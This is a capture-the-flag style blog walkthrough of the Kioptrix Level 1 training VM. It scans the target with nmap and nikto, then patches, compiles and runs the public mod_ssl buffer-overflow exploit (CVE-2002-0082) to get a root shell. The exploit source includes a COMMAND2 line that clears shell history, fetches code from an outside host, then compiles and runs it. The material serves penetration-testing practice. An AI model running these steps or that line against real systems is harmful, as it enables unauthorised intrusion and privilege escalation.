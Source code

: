 ```yaml
---
layout: post
title: Vulnerable VMs: Kioptrix Pt. 1
published: true
---
```


The Kioptrix series of vulnerable VMs closely resemble the material presented in the PWK course, and the OCSP exam. Kioptrix Level 1 starts out relatively easy, so let’s get started:

Once we have the VM loaded in bridged adapter mode (directly connected to physical network), let’s quickly scan our subnet for the machine:

```bash
nmap -sS -T5 192.168.1.0/24
```
 

Our output shows that our target is at `192.168.1.104`. Let’s perform a direct scan that fingerprints open ports/services:

```bash
nmap -sV -sT -A -T4 -sC 192.168.1.104
```
 

Which tells us that an Apache web server is running on the target:

```
443/tcp  open  ssl/https  Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2017-01-28T00:10:51+00:00; -37d09h58m43s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
...snip..
```

Notably, this server is running a very outdated version of Apache and OpenSSL. We think the version of OpenSSL has a working exploit, however, let’s confirm our suspicion with a quick `nikto` scan:

```bash
nikto -h 192.168.1.104:80
```
 

Which returns an interesting line:
```
+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
```


`nikto` confirms our suspicion that `mod_ssl` has an RCE vulnerability in versions 2.8.7 and lower. Let’s find the exploit:

```bash
searchsploit mod_ssl 2.8.7
```
 

`searchsploit` is telling us that the exploit is at `/usr/share/exploitdb/platforms/unix/remote/21671.c`. However, this version was a bit outdated, so I downloaded my exploit straight from exploit-db:

```bash
wget https://www.exploit-db.com/download/764
```
 

Now, we have to make a few changes to the source code since this exploit is a bit outdated. First, there is a hard-coded line to `wget` some resources from packetstormsecurity, however, their download domain has changed since then. Find the following line:

```c
#define COMMAND2 "unset HISTFILE; cd /tmp; wget http://packetstormsecurity.nl/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
```


and replace it with:

```c
#define COMMAND2 "unset HISTFILE; cd /tmp; wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
```
 

Now we need to import the RC4/MD5 OpenSSL libraries for compatibility with this legacy SSL version. Add the following include statements:

```c
#include openssl/rc4.h
```
```c
#include openssl/md5.h
```
 

And compile the exploit per the instructions in the code comments:

```bash
gcc -o pwn 764.c -lcrypto
```
 

Run the exploit with the following arguments (Note, the 0x6b argument specifies the version of apache/server platform, detailed in exploit help):

```bash
./pwn 0x6b 192.168.1.104
```
 

And you get a root shell! Easy peasy.
